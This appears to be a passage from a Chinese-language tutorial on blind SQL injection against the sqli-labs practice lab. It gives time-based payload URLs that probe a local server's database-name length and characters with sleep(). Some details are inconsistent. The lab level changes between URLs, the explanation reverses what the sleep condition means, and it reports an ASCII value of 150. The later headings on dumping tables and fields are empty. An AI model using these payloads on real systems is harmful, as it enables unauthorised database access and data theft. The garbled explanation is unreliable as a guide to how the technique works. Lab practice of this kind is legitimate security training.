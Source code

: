 ```
http://192.168.1.76/sqli-labs/Less-8/?id=1' --+
```

### 10.2 爆库

判断数据库长度

> 通过使用 `length` 计算字段的长度判断真假（一个汉字为 3 个字符，一个数字或字母为 1 个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and if(length(database()) > 10,sleep(3),1) --+
```

> 最后得到数据库长度为 8

判断数据库名

```
http://192.168.1.76/sqli-labs/Less-8/?id=1' and if(ascii(substr(database(),1,1)) = 100,sleep(3),1) --+
```

> 当数据库的第一个字符 ascii 码长度为 100 时，则正常，否则休眠三秒
>
> 最后得到 ascii 码为 150

### 10.3 爆表

### 10.4 爆字段

### 10.5 拖库
